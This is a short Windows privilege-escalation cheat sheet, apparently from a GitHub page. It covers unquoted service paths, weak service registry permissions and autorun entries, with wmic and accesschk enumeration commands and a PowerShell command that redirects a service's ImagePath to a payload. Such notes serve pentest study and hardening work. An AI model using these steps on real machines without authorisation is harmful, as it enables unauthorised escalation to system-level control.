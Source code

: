 ### 🪓 **Unquoted Service Paths**

- If the path has spaces and **no quotes**, Windows tries to run parts of the path as programs (yep, dumb AF).


**Attack vector example:**  
If service runs:

```
C:\Program Files\My App\service.exe
```

Windows may check:

- `C:\Program.exe`

- `C:\Program Files\My.exe`


**Find them with:**

```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /v /i "c:\windows\\" | findstr /v /i '"'
```

**Problem:** You’d need to drop a file like `C:\Program.exe`, which usually requires admin anyway.

---

### 🧬 **Weak Registry Permissions**

- Check registry keys for write access:

```cmd
accesschk.exe -kvuqsw hklm\System\CurrentControlSet\Services
```

- If you can modify `ImagePath`, you win.


**Exploit:**

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\<ServiceName> -Name "ImagePath" -Value "C:\Path\To\Payload.exe"
```

---

### 🔁 **Registry Autoruns (Persistence / Escalation)**

- Use:

```cmd
wmic startup get caption,command
```

- If you can overwrite a binary listed there or edit its registry entry, you can escalate when someone logs in.
